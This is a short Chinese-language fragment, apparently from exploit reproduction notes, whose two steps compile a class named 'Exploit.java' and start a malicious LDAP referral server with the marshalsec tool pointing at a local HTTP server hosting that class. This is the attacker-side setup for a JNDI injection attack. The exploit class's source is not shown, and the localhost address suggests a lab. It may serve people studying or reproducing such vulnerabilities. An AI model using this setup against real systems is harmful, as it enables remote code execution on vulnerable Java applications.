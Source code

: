 # 编译Exploit

```
/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/javac Exploit.java
```

# 启动Ldap服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8089/#Exploit 
```

